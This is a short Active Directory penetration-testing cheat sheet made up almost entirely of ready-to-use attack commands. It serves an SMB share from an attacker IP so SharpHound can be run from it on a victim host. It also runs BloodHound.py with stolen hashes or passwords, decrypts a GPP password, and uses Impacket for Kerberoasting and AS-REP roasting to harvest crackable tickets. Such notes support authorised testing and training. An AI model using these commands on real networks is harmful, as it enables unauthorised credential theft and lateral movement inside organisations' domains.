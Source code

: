 # Active Directory

## MindMap

{% embed url="https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg" %}

## Bloodhound

```
impacket-smbserver share . -smb2support -username df -password df
net use \\10.10.14.9\share /u:df df
cd \\10.10.14.9\share\
.\SharpHound.exe
```

## Bloodhound-Python

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns <DC IP> -d <domain> -u <username> -p <password> -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

### Kerberoasting

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```

### AS-REP Roasting

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst | grep krb5asrep
```

## Listing directories in PowerShell

```
Get-ChildItem . -Force
dir -Force
ls -Force
gci -Force
```
